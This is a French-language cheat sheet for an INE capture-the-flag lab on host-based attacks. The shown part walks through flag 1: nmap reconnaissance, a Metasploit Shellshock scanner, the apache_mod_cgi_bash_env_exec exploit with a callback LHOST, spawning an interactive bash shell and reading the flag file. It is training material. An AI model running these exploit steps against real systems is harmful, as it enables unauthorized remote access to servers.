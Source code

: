 # System-Host Based Attacks CTF 2 - Cheat Sheet

## Vue d'ensemble du CTF
Ce CTF couvre **4 flags** répartis sur **2 cibles** avec des vulnérabilités différentes :
- **target1.ine.local** (Flags 1 & 2) - Exploitation Shellshock
- **target2.ine.local** (Flags 3 & 4) - Bypass libssh + Escalade de privilèges

---

## 🎯 FLAG 1: Exploitation Shellshock

### **Question:** *"Check the root ('/') directory for a file that might hold the key to the first flag on target1.ine.local."*

#### **Étapes d'exploitation:**

1. **Reconnaissance initiale**
   ```bash
   nmap -sC -sV -p- target1.ine.local
   ```
   - Port 80 ouvert avec serveur web
   - Site "Modern Art Gallery" utilisant CGI

2. **Test vulnérabilité Shellshock**
   ```bash
   # Dans Metasploit
   use scanner/http/apache_mod_cgi_bash_env
   set RHOSTS target1.ine.local
   set TARGETURI /browser.cgi
   run
   ```
   - Confirme la vulnérabilité Shellshock

3. **Exploitation Shellshock**
   ```bash
   # Dans Metasploit
   use multi/http/apache_mod_cgi_bash_env_exec
   set LHOST [votre_ip]
   set RHOSTS target1.ine.local
   set TARGETURI /browser.cgi
   exploit
   ```

4. **Obtention du shell**
   ```bash
   shell
   /bin/bash -i
   ```

5. **Récupération du flag**
   ```bash
   cd /
   cat flag1.txt
   ```

---